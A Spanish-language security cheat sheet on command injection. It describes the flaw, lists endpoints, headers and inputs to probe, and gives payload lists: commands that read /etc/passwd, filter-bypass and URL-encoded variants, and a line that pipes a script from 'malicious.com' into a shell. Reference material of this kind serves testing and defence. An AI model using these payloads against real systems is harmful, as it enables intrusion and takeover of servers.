 # Command Injection (RCE)

## Descripción

La vulnerabilidad de **Command Injection** ocurre cuando una aplicación permite la ejecución de comandos del sistema sin una validación adecuada. Esto permite a un atacante ejecutar comandos arbitrarios en el servidor, lo que puede llevar a la exposición de datos, el control total del sistema y la persistencia en el servidor.

Este falla es especialmente crítica cuando la aplicación ejecuta comandos del sistema basados en la entrada del usuario sin saneamiento.

---

## Dónde buscar Command Injection

### Endpoints comunes
- **Formularios de búsqueda** (`/search?q=QUERY`).
- **Paneles de administración** (`/admin/run?cmd=`).
- **Carga de archivos** (validar nombres de archivo y comandos incrustados).
- **APIs con ejecución de comandos** (`/api/exec?cmd=`).
- **Diagnósticos de red** (`/ping?host=` o `/traceroute?target=`).
- **Conversión de archivos** (`/convert?format=`).

### Cabeceras HTTP
- **User-Agent**: Puede ser inyectado en registros del sistema.
- **Referer**: Puede ser utilizado para manipular registros de logs y comandos subsiguientes.
- **X-Forwarded-For**: Puede ser inyectado en validaciones de direcciones IP.

### Datos de usuario
- **Inputs de formularios** (como nombres de usuario, consultas de búsqueda, etc.).
- **Archivos JSON o XML** que contengan comandos ejecutables.

---

## Payloads comunes

### Básicos
```bash
; id
| whoami
&& cat /etc/passwd
```

### Encadenados con operadores
```bash
; ls -la
| uname -a
&& curl http://malicious.com/shell.sh | sh
```

### Con bypass de filtrado
```bash
`id`
$(`whoami`)
$(cat /etc/passwd)
```

### Variantes codificadas
```bash
%3B%20id
%26%26%20whoami
%60cat%20/etc/passwd%60
```
